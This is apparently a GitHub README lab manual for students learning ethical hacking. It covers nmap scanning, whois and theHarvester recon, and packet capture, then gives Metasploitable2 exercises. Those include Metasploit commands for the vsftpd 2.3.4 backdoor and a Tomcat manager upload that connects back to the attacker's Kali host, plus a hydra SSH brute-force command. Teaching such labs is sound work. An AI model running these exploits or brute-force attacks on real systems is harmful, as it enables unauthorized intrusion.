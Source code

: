 
# 🛡️ Day 2 – Cybersecurity Lab Manual

This repository contains beginner-friendly, hands-on **penetration testing exercises** using **Kali Linux**, **Metasploitable2**, and common cybersecurity tools. These labs are ideal for students learning ethical hacking and real-world security analysis.

---

## 🧠 Theory Recap

### 🔑 Key Concepts:
- **IP Address**: Unique identifier for a device on a network
- **Ports**: Logical endpoints (e.g., port 80 = HTTP)
- **Protocols**:
  - **TCP** – reliable, connection-based (3-way handshake)
  - **UDP** – faster, connectionless

### 🔁 TCP 3-Way Handshake:
1. SYN →  
2. SYN-ACK →  
3. ACK

---

## 🧪 Practical Labs

### 🛠️ Lab 1: Nmap for Network Scanning

**Goal**: Discover live hosts, open ports, and services.

#### 📦 Install Nmap
```bash
sudo apt update
sudo apt install nmap
```

#### 🔧 Basic Commands:
- Ping scan:
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- Scan specific host:
  ```bash
  nmap 192.168.1.10
  ```
- Scan specific ports:
  ```bash
  nmap -p 22,80,443 192.168.1.10
  ```
- Service version detection:
  ```bash
  nmap -sV 192.168.1.10
  ```
- Aggressive scan:
  ```bash
  nmap -A 192.168.1.10
  ```

📘 Tip: Use `man nmap` for more options.

---

### 🛠️ Lab 2: Passive Recon – Whois, Nslookup, theHarvester

**Goal**: Gather information about domains without touching the target server directly.

#### 🔍 Whois
```bash
whois example.com
```

#### 🔍 Nslookup
```bash
nslookup example.com
```

#### 🔍 theHarvester
**Install:**
```bash
sudo apt install theharvester
```

**Example:**
```bash
theharvester -d example.com -l 100 -b bing
```

---

### 🛠️ Lab 3: Packet Capture with Wireshark

**Goal**: Observe live network traffic.

#### Steps:
1. Open Wireshark: `sudo wireshark`
2. Select your network interface (e.g., `eth0`)
3. Start capture
4. Visit a website
5. Stop capture
6. Apply filter: `http` or `tcp.port == 80`
7. Right-click a packet → Follow TCP Stream

---

### 🛠️ Lab 4: tcpdump (CLI Packet Capture)

**Goal**: Capture packets using the command line.

#### 🔧 Basic Commands:
- Start capture:
  ```bash
  sudo tcpdump -i eth0
  ```
- Filter HTTP traffic:
  ```bash
  sudo tcpdump -i eth0 port 80
  ```
- Save to a file:
  ```bash
  sudo tcpdump -i eth0 -w output.pcap
  ```

#### 🧾 Open `.pcap` in Wireshark:
```bash
wireshark output.pcap
```

---

## 🔓 Metasploitable2 Exploitation Labs

### ⚙️ Setup
- **Kali Linux** as attacker
- **Metasploitable2** as vulnerable target
- Same Host-Only or NAT network

---

### ✅ Exercise 1: Discover Target Machine
```bash
netdiscover -r 192.168.56.0/24
```

---

### ✅ Exercise 2: Scan for Open Ports
```bash
nmap -sS -sV <TARGET_IP>
```

---

### ✅ Exercise 3: Exploit FTP – vsftpd 2.3.4
```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <TARGET_IP>
run
```

---

### ✅ Exercise 4: Web Directory Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

---

### ✅ Exercise 5: SSH Brute-force Attack
```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

---

### ✅ Exercise 6: Exploit Tomcat Manager
```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOST <TARGET_IP>
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST <KALI_IP>
run
```

---

## 📝 Suggested Student Tasks

- Submit a lab report for each exercise
- Include screenshots of successful scans and exploits
- Answer questions:
  - What tool did you use?
  - What vulnerability was exploited?
  - What was the outcome?

---

## 📂 Repository Suggestions

```
cybersecurity-labs/
├── README.md
├── screenshots/
├── reports/
└── output/
```

---

## 📚 References

- [Nmap](https://nmap.org/)
- [Metasploit](https://docs.metasploit.com/)
- [Wireshark](https://www.wireshark.org/)
- [theHarvester](https://github.com/laramies/theHarvester)

---

## ⚠️ Disclaimer

This lab is for **educational purposes only**. Do not run these scans or exploits on real-world or unauthorized networks.

---
